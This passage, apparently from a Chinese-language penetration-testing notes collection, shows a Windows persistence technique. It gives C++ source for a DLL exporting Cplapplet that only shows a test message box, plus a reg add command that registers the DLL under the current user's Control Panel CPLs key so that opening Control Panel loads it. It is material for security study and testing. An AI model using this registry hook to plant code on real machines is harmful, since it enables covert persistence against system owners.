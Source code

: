 	编译为dll，这里是弹框测试
```cpp
#include <Windows.h>
#include "pch.h"

//Cplapplet
extern "C" __declspec(dllexport) LONG Cplapplet(
    HWND hwndCpl,
    UINT msg,
    LPARAM lParam1,
    LPARAM lParam2
)
{
    MessageBoxA(NULL, "inject control panel.", "Control Panel", 0);
    return 1;
}

BOOL APIENTRY DllMain(HMODULE hModule,
    DWORD  ul_reason_for_call,
    LPVOID lpReserved
)
{
    switch (ul_reason_for_call)
    {
    case DLL_PROCESS_ATTACH:
    {
        Cplapplet(NULL, NULL, NULL, NULL);
    }
    case DLL_THREAD_ATTACH:
    case DLL_THREAD_DETACH:
    case DLL_PROCESS_DETACH:
        break;
    }
    return TRUE;
}
```
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/680.png)
	
	添加到注册表中，只要运行control命令打开控制面板即可加载dll
	reg add "HKCU\Software\Microsoft\Windows\CurrentVersion\Control Panel\CPLs" /v spotless /d "C:\xxx\dll.dll" /f
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/681.png)